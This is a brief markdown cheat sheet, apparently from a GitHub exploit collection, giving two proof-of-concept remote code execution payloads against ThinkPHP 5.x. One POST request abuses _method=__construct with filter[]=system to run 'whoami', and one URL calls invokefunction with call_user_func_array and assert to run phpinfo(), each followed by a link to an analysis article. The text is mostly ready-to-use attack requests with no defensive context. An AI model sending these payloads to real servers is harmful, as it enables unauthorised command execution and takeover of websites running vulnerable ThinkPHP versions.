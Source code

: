 # Thinkphp

## ThinkPHP 5.0.0~5.0.23 RCE

## POC

```
http://127.0.0.1/thinkphp/index.php?s=captcha

POST:

_method=__construct&filter[]=system&method=get&get[]=whoami
```

### 漏洞分析

https://xz.aliyun.com/t/3845

## ThinkPHP 5.X RCE

## POC

5.0.x php版本>=5.4

```
http://127.0.0.1/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()
```

### 漏洞分析

https://xz.aliyun.com/t/3570


